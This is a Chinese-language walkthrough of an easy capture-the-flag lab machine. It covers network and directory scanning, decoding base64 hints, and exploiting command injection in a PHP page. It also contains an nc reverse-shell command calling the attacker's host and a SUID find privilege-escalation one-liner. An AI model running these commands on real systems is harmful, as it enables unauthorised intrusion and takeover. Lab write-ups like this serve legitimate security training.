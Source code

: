 > 需要手动修改网卡 /etc/init.d/networking restart，通过命令执行来执行反弹shell后，find suid文件来提权
## 靶机信息
级别:容易

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.153

sudo nmap --min-rate 10000 -sT -p- 192.168.1.153 -oA tcp_ports/ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Web

![[Pasted image 20231013164958.png]]
### 目录爆破
```shell
gobuster dir -u http://192.168.1.153 -w /usr/share/wordlists/dirb/common.txt
/robots.txt           (Status: 200) [Size: 53]
bG9sIHRyeSBoYXJkZXIgYnJvCg==
echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
//lol try harder bro
```

![[Pasted image 20231013165346.png]]
查看源码，最低端发现加密信息
```shell
WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK
将其多次base64 decode之后得信息 //workinginprogress.php
```
![[Pasted image 20231013165816.png]]
提示可能存在命令执行，尝试ping并不行(command,cmd,ping),cmd是可以的
```shell
http://192.168.1.153/workinginprogress.php?cmd=whoami
```
![[Pasted image 20231013165927.png]]

## 提权
```shell
http://192.168.1.153/workinginprogress.php?cmd=nc%20192.168.1.136%201234%20-e%20/bin/bash
本地开启 nc -lvnp 1234
成功得到立足点
```

### 通过find提权
```shell
find / -type f -perm -u=s 2>/dev/null
/usr/bin/find

/usr/bin/find . -exec /bin/sh -p \; -quit //参考GTFOBins
1. `/usr/bin/find`：这是 `find` 命令的完整路径。`find` 是一个用于在指定目录及其子目录中查找文件和目录的工具。在这里，它的作用是搜索文件和目录。
    
2. `.`：这个点表示查找的起始目录，通常是当前目录。`find` 将从当前目录开始搜索。
    
3. `-exec`：这个选项告诉 `find` 在找到的每一个匹配项上执行后续的命令。
    
4. `/bin/sh`：这是一个命令解释器的路径。在这种情况下，它使用 `/bin/sh`，这是一个常见的Unix/Linux shell。 `-p` 选项通常用于执行一个新的 shell 进程。
    
5. `\;`：这是 `-exec` 选项的一部分，表示 `-exec` 命令的结尾。


```
![[Pasted image 20231013170735.png]]
成功提权
